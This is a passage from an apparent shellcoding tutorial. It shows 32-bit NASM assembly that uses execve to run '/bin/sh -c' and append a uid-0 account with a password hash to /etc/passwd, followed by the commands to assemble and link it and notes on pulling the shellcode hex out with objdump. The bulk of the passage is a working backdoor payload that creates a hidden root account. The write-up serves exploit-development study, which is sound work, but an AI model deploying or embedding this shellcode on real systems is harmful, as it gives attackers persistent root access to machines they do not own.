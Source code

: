 ```nasm
  lea ebx, [esi]            ; move pointer to string "-c" into ebx register
  push ebx                  ; argv[] 2nd arg. Memory location of "-c" anfter first string,
  mov ebx, ecx              ; memory address of "/bin//sh" on the stack
  push ebx                  ; argv[] array start. Memory pointer to string "/bin/sh"
  mov ecx, esp              ; point ecx to top of stack
  mov al, 0xb               ; 11 - syscall for execve
  int 0x80                  ; executes execve systemcall

jmp2call:
  call string2stack         ; jumps 2 next instruction and pushes memory location of string
                            ; below onto the stack.
  string db "-c#/bin/echo ctl:NNwZ8D1QjVy3Y:0:0::/:/bin//sh >> /etc/passwd"
;            01234567890123456789012345678901234567890123456789012345678901
;                      1         2         3         4         5         6

; string db "/bin/sh#-c#/bin/echo ctl:NNwZ8D1QjVy3Y:0:0::/:/bin/sh >> /etc/passwd#"
```
+ The users shell was changed from `/bin/bash` to `/bin//sh`.
  - The number of `/` characters does not matter for calling a program by its full path in Linux.
  - `/bin/sh` is more universal than `/bin/bash`.
  - Using `/bin/sh` also shortens the final length of the shellcode.
+ The `#` at the end of the echo string was also removed.
  - Since the string is at the end of shellcode memory, it should not matter if we overwrite this `byte` in the `code segment`.

# Testing the Shellcode

## Getting the Hex of the Shellcode
#### Compiling & Linking the Shellcode
```nasm
root# nasm -f elf32 poly3.addAcct.nasm -o poly3.addAcct.o
root# ld -z execstack poly3.addAcct.o -o poly3.addAcct
```

### Overcoming Problems with Objdump CL-Fu
#### Dump the Hex with Object Dump
+ Unfortunately our objdump command line fu does not work for this shellcode.
+ To remedy this issues, `objdump -d poly3.addAcct` was used.
+ Byobu was used to grab the shellcode hex from the output.  
![](/assets/images/byobu-box-select.png)
  - `F7` to enter copy-mode
  - `space`+`v` to select text with a box
  - `enter` to copy to clipboard
  - `ctrl+a`+`]` to paste